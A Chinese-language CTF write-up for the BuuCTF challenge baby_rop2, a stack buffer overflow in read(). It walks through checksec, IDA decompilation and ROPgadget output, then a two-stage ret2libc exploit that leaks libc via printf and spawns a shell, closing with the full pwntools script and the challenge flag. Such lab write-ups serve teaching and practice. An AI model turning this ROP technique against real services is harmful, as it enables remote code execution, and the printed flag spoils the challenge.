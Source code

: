 ```yaml
---
tags:
  - BuuCTF
  - 中等
  - ret2libc
---
```


# \[HarekazeCTF2019\] baby_rop2

## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec babyrop2
[*] '/home/ela/Pwn/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

用 IDA 64 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  printf("What's your name? ");
  v5 = read(0, buf, 0x100uLL);
  buf[v5 - 1] = 0;
  printf("Welcome to the Pwn World again, %s!\n", buf);
  return 0;
}
```

溢出点就在 `read()` 函数上，但是找了整个程序，没有 `system()` 和 `/bin/sh`，于是需要我们自己构造

用 ROPgadget 找到 `pop rdi; ret` 和 `pop rsi ; pop r15 ; ret`

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary babyrop2 --only "pop|ret"
Gadgets information
============================================================
0x000000000040072c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040072e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400730 : pop r14 ; pop r15 ; ret
0x0000000000400732 : pop r15 ; ret
0x000000000040072b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040072f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004005a0 : pop rbp ; ret
0x0000000000400733 : pop rdi ; ret
0x0000000000400731 : pop rsi ; pop r15 ; ret
0x000000000040072d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004d1 : ret
0x0000000000400532 : ret 0x200a

Unique gadgets found: 12
```

找到了，分别是 `0x400733` 和 `0x400731`

## 构造 Payload 1

首先这个程序里面没有 `puts()` 可以调用，所以只能利用 `printf()` 来输出想要的函数的真实地址，我想要得到 `read()` 的真实地址

```python
main_addr = 0x400636
fmtstr_addr = 0x400770 # 即字符串 "Welcome to the Pwn World again, %s!\n" 的地址，需要利用 %s
pop_rdi_ret = 0x400733
pop_rsi_ret = 0x400731
printf_plt = elf.plt["printf"]
read_got = elf.got["read"]

payload1 = b"A"*(0x20+0x8)
payload1 += p64(pop_rdi_ret) + p64(fmtstr_addr) # 将字符串的地址载入到 RDI 寄存器
payload1 += p64(pop_rsi_ret) + p64(read_got) + p64(0) # 将 read() 函数的 GOT 载入到 RSI 寄存器，便于 printf() 读取
payload1 += p64(printf_plt) + p64(main_addr) # 调用 prinf() 函数，并在最后返回到 main() 函数
io.recvuntil("What's your name? ")
io.sendline(payload1)
```

## 计算 Libc 基址

```python
read_addr = u64(io.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
libc = LibcSearcher("read", read_addr)
libc_base = read_addr - libc.dump("read")

system_base = libc_base + libc.dump("system")
bin_sh_base = libc_base + libc.dump("str_bin_sh")
```

## 构造 Payload 2

```python
payload2 = b"A"*(0x20+0x8) + p64(pop_rdi_ret) + p64(bin_sh_base) + p64(system_base)
io.recvuntil("What's your name? ")
io.sendline(payload2)
```

## 附总 Exp

```python
from pwn import *
from LibcSearcher import *

p64 = lambda x: pack(x, 64)
u64 = lambda x: unpack(x, 64)

io = remote("node4.buuoj.cn", 28396)
elf = ELF("./babyrop2")

main_addr = 0x400636
fmtstr_addr = 0x400770
pop_rdi_ret = 0x400733
pop_rsi_ret = 0x400731
printf_plt = elf.plt["printf"]
read_got = elf.got["read"]

payload1 = b"A"*(0x20+0x8)
payload1 += p64(pop_rdi_ret) + p64(fmtstr_addr)
payload1 += p64(pop_rsi_ret) + p64(read_got) + p64(0)
payload1 += p64(printf_plt) + p64(main_addr)
io.recvuntil("What's your name? ")
io.sendline(payload1)

read_addr = u64(io.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
libc = LibcSearcher("read", read_addr)
libc_base = read_addr - libc.dump("read")

system_base = libc_base + libc.dump("system")
bin_sh_base = libc_base + libc.dump("str_bin_sh")

payload2 = b"A"*(0x20+0x8) + p64(pop_rdi_ret) + p64(bin_sh_base) + p64(system_base)
io.recvuntil("What's your name? ")
io.sendline(payload2)

io.interactive()

```

LibcSearcher 匹配到的 Libc 中，应当选取 `libc6_2.23-0ubuntu11_amd64`

最后找到 Flag 为 `flag{e943695b-4016-4b6f-bc36-214af216a5a0}`